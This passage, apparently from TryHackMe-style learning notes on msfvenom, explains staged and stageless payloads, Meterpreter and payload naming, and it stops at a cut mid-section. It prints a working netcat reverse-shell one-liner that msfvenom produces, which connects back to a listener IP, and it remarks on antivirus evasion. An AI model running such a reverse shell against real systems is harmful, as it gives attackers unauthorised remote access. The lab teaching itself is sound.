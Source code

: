 Then us `msfvenom` and it will print out the command you can use to make your bind/reverse shell: 

````commandline
$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.8.208.30 LPORT=6666
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 93 bytes
mkfifo /tmp/wdxlk; nc 10.8.208.30 6666 0</tmp/wdxlk | /bin/sh >/tmp/wdxlk 2>&1; rm /tmp/wdxlk
````

### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: `staged` reverse shell payloads and `stageless` reverse shell payloads.

- `Staged` payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
- `Stageless` payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

### Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for [another time](https://tryhackme.com/room/rpmetasploit). The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.

### Payload Naming Conventions

When working with `msfvenom`, it's important to understand how the naming system works. The basic convention is as follows:

    <OS>/<arch>/<payload>

For example:
